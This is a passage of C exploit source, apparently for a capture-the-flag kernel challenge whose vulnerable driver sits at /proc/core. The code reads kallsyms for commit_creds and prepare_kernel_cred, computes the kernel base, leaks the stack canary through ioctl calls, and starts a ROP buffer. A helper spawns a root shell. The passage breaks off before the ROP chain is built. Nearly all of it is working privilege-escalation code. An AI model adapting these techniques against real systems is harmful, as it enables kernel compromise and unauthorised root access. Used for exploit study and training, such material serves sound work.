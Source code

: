 ```assembly
         char hex[20] = {0};
         strncpy(hex,buf,16);
         sscanf(hex,"%llx",&commit_creds);
         printf("commit_creds addr: %p\n",commit_creds);
         
         vmlinux_base = commit_creds - 0x9c8e0;
         printf("vmlinux_base addr: %p\n",vmlinux_base);
      }

      //find prepare_kernel_cred
      if(strstr(buf,"prepare_kernel_cred") && !prepare_kernel_cred){
         char hex[20] = {0};
         strncpy(hex,buf,16);
         sscanf(hex,"%llx",&prepare_kernel_cred);
         printf("prepare_kernel_cred addr: %p\n",prepare_kernel_cred);
         vmlinux_base = prepare_kernel_cred - 0x9cce0;
      }

   }

   if(!commit_creds & !prepare_kernel_cred){
      puts("[*]read kallsyms error!");
      exit(0);
   }
}


void spawn_shell(){
   if(!getuid()){
      system("/bin/sh");
   }
   else{
      puts("[*]spawn shell error!");
   }
   exit(0);
}


int main(){
    save_status(); 

    int fd = open("/proc/core", 2);
    if(fd < 0){
        puts("[*]open /proc/core error!");
    }
   
    //read /tmp/kallsyms to get commit_creds and prepare_kernel_cred addr
    find_symbols();
    ssize_t offset = vmlinux_base - raw_vmlinux_base;
   
    //v5 [rbp-0x50]
    //leak canary
    ioctl(fd, 0x6677889C, 0x40);

    char buf[0x40] = {0};
    ioctl(fd, 0x6677889B, buf);
    size_t canary = ((size_t*)buf)[0];
    printf("[*]canary: %p\n", canary);


    size_t rop[0x1000] = {0};   
    int i;
    
```